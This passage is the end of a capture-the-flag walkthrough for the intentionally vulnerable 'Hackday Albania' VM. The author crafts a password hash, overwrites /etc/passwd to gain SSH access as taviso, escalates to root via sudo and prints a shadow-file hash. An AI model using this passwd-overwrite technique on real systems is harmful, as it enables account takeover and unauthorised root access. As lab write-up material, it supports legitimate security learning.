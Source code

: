 ```
root@kali:~# python -c 'import crypt; print crypt.crypt("supersecretpassword", "$6$saltsalt$")'
$6$saltsalt$t084OTPu49EJVUgFTLQxZ4yArFIeFzEnpGtrpyifSoSmJuIk0rQ9YmVXUyd2.Is1eMV/S0loZUxni1ijH5Qem.
```

I then replaced the second field of the user root and taviso in the passwd file with the new password hash and uploaded it again, overwriting the original `/etc/passwd`.

Trying to SSH in with root and the new password failed - likely because root SSH login is disabled.
But trying to SSH in with the user taviso works and we now have a working session!

Knowing the user taviso is able to execute sudo, let's check his rights:

```
taviso@hackday:~$ sudo -l
[sudo] password for taviso:
Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL

taviso@hackday:~$ su -
Password:
root@hackday:~#
```

BOOM that escalated quickly.

![pwned](/img/vulnhub_hackday_albania/escalated_quickly.jpg)

Now we are able to get the flag from the root directory:

```
root@hackday:~# cat flag.txt
Urime,
Tani nis raportin!

d5ed38fdbf28bc4e58be142cf5a17cf5
```

`d5ed38fdbf28bc4e58be142cf5a17cf5` is the MD5 hash of the string `rio`.

The original password hash of `taviso` extracted from `/etc/shadow`:

```
taviso:$6$RpYQyuNB$yYNQbBo6ICCb0pwNKBMVeQeA/NZwrYPxy4WnXs2NybNeGAh3XrmkJ94cuqA1.CYc0e07R.QbQEIdXLIL5U83T1:17096:0:99999:7:::
```

Thanks [@R-73eN](https://twitter.com/r_73en) for this VM!

